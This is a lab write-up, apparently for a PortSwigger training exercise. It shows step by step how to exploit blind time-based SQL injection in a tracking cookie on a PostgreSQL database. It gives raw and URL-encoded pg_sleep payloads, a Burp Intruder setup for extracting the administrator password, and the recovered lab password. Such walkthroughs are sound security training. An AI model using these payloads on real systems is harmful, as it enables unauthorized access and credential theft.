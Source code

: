 
# Blind SQL injection with time delays and information retrieval

## This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

## The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

___

#blind_sql #time_delay #postgres_database

**NOTE:**
![screnshot](./images/lab15_0.png)

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`

step 1

`';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--`

`'%3bSELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`

```sql
TrackingId=Bz1TiFgyU9JfEPNb'%3bSELECT+CASE+WHEN+(1%3d1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```
when you send request it will take around 10 second then you will get 200 response

![screnshot](./images/lab15_1.png)

step 2
`';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--`

`'%3bSELECT+CASE+WHEN+(1%3d2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`

```sql
TrackingId=Bz1TiFgyU9JfEPNb'%3bSELECT+CASE+WHEN+(1%3d2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```
when you send request it will take around 2 second then you will get 200 response

![screnshot](./images/lab15_2.png)

step 3
`';SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`

`'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

```sql
TrackingId=tax9NfTM7uDS6d4O'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
when you send request it will take around 10 second then you will get 200 response

![screnshot](./images/lab15_3.png)

step 4
`';SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`

`'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

```sql
TrackingId=tax9NfTM7uDS6d4O'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
when you send request it will take around 10 second then you will get 200 response

![screnshot](./images/lab15_4.png)

step 5

`'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

`'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+LENGTH(password)>§1§)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

```sql
TrackingId=tax9NfTM7uDS6d4O'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+LENGTH(password)>§1§)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

![screnshot](./images/lab15_5.png)

![screnshot](./images/lab15_6.png)

step 6

`';SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`

`'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

```sql
 TrackingId=tax9NfTM7uDS6d4O'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

since we have two field so attack type set to Cluster bomb
payload 1 => number => 1 to 20
payload 2 => simple list => a-z and 0-9
Resource pool => 1 millisecond

![screnshot](./images/lab15_7.png)

filter result with response time 

![screnshot](./images/lab15_8.png)

`nu0go0r579x1l1rppjnz`

step 7

To solve the use username as `administrator` and password `nu0go0r579x1l1rppjnz`

![screnshot](./images/lab15_9.png)